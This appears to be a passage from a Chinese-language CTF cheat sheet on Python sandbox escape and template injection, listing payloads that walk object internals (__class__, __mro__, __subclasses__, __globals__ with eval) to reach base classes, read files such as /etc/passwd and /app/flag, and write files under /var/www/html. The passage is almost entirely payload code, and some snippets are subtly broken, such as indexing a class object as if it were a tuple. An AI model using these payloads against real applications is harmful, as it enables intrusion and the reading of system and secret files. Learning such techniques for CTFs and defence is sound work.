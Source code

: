 > 查看其引用，（其中包含了大量的内置函数，python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了，而对于builtins却不用导入，他在任何模块都直接可看



### ②常见函数方法

#### Ⅰ获取基本类

```python
''.__class__.__mro__[1]
{}.__class__.__base__[0]
().__class__.__base__[0]
[].__class__.__base__[0]
object
```



#### Ⅱ.读文件

```python
().__class__.__base__[0].__subclasses__()[40](r'C:\1.php').read()
object.__subclasses__()[40](r'C:\1.php').read()
```



```python
[].__class__.__base__[0].__subclasses__()[NUM]["get_data"](0,"/etc/passwd")
```



```python
- codecs模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('codecs').open('/app/flag').read()") 

- pathlib模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('pathlib').Path('/app/flag').read_text()") 

- io模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('io').open('/app/flag').read()")

- open函数
x[NUM].__init__.__globals__['__builtins__'].eval("open('/app/flag').read()")
```





#### Ⅲ写文件

```python
().__class__.__base__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
object.__subclasses__()[40]('/var/www/html/input', 'w').write('123')

```


